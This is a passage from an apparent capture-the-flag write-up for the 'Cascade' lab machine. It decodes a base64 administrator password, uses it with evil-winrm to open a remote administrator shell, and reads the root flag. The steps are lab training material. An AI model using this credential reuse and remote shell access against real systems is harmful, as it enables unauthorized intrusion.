 ```bash
```

```shell
$ echo 'YmFDVDNyMWFOMDBkbGVz' | base64 -d    
baCT3r1aN00dles
```

Enter as `administrator` via `evil-winrm`.

```bash
$ evil-winrm -i 10.10.10.182 -u administrator -p baCT3r1aN00dles
                                        
Evil-WinRM shell v3.7
                                        
Warning: Remote path completions is disabled due to ruby limitation: undefined method `quoting_detection_proc' for module Reline
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Administrator\Documents> whoami
cascade\administrator
```

## Post Exploitation

Get the flag.

```shell
*Evil-WinRM* PS C:\Users\Administrator\desktop> type root.txt
8071c9d5398ae77294c2b756de6a1e20
```
